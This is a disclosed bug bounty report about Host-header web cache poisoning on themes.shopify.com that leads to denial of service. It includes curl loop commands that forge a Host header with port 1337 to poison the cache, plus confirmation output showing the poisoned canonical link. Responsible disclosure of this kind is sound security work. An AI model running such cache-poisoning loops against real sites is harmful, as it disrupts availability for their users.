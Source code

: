# https://themes.shopify.com::: Host header web cache poisoning lead to DoS

## Report Details
- **Report ID**: 1096609
- **URL**: https://hackerone.com/reports/1096609
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-05T18:45:51.371Z
- **Disclosed**: 2021-04-08T19:40:19.885Z

## Reporter
- **Username**: g4mm4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi there,
I just found the website:
https://themes.shopify.com
is infected with "Web cache poisoning" via HOST header lead to Denial of Services
Abuse this bug, Attacker can:

Poison your cache with HTTP header Host header with arbitrary PORT which is not opened. This attack may lead to Denial of Services

How to reproduce the issue:
In the 1st terminal, run command likes this:
----------
$ while true; do curl -ik "https://themes.shopify.com:443/?g4mm4=hitthecache" -H "Host: themes.shopify.com:1337"|grep ":1337"; sleep 0;echo 1; done
----------


In the 2nd terminal, run command below for confirmation this attack is successful or not:
----------
$ while true; do curl -ik "https://themes.shopify.com:443/"|grep ":1337"; done
----------
and the output from command with be confirmed my Host header poisoning worked:
$ while true; do curl -ik "https://themes.shopify.com:443/"|grep ":1337"; done
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  <link rel="canonical" href="https://themes.shopify.com:1337/">
        <li><div class="popover-wrapper js-popover-dropdown popover-wrapper--dropdown" data-position="bottom" data-align="left"><button type="button" class="popover__trigger marketing-nav__item marketing-nav__item--primary" itemprop="name">Collections<svg class="icon marketing-nav__arrow" aria-hidden="true" focusable="false"> <use xlink:href="#modules-caret-down" /> </svg></button><div class="popover"><div class="popover__content"><ul class="popover__list"><li><a href="/collections/trending-themes" class="marketing-nav__item marketing-nav__item--child" itemprop="name" data-ga-event="Main Nav" data-ga-action="Clicked" data-ga-label="trending-themes">Trending this week </a></li><li><a href="/collections/product-recommendations" class="marketing-nav__item marketing-nav__item--child" itemprop="name" data-ga-e
...........
+++

Finally, when user visits the homepage: https://themes.shopify.com, so many images, css, link will not be loaded (Because the port :1337 which appended themes.shopify.com:1337 is not opened
Please see the attached image for details.

cheers,
~g4mm4
References:
https://portswigger.net/research/web-cache-entanglement
Denial of Services

## Impact

Denial of Services

## Attachments
- PoC-Host-Header-cache-poisoned-DoS.png

